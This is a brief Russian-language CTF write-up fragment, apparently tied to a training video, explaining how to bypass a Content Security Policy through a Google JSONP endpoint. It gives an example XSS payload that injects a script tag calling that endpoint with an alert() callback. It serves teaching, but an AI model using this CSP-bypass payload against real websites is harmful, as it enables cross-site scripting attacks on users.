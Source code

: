 ﻿На видео: [3:36:17](https://vk.com/video-114366489_456239197?t=3h36m17s)

Обойти CSP через JSONP-ручку в гугле

Пример решения: `?spbctf=<script src="https://www.google.com/complete/search?client=chrome%26jsonp=alert()//"></script>`
